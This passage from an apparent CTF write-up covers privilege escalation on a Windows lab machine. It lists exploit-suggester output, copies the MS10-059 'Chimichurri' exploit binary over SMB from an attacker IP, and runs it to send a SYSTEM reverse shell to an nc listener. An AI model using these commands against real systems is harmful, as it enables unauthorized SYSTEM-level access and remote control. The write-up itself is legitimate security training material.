 ```
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

Looking at those, as I’m not as interested in MSF modules to start, and as IE is likely to require user interaction, ones to look into are:

- MS10-047
- MS10-059
- MS10-061
- MS10-073
- MS11-011
- MS13-005

After viewing some blogs, I found out that `MS10-059` was the exploit that is supposed to be used to gain `priv-esc`.

I did some googling around for exploit code and found [this GitHub from egre55](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri) that included an exploit for MS10-059. I was particularly drawn to the fact that this binary requires an IP and port to connect to. Many of the exploits will start a new cmd as SYSTEM, which is nice if you are standing at the computer, but not so useful from a remote shell.

I downloaded the binary (while it’s never a great idea to run exes downloaded directly from the internet, for a CTF environment, I’m willing to run it), and ran `smbserver.py share .` to share my current directory.

Then in my shell, I copied it to Arctic:

```
C:\ColdFusion8\wwwroot\userfiles\file>net use \\10.10.16.4\share 
net use \\10.10.16.4\share
The command completed successfully.


C:\ColdFusion8\wwwroot\userfiles\file>copy \\10.10.16.4\share\Chimichurri.exe .     
copy \\10.10.16.4\share\Chimichurri.exe .
        1 file(s) copied.
```


Now I start a nc listener, and run it:

```
C:\ColdFusion8\wwwroot\userfiles\file>.\Chimichurri.exe 10.10.16.4 8888
.\Chimichurri.exe 10.10.16.4 8888
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```
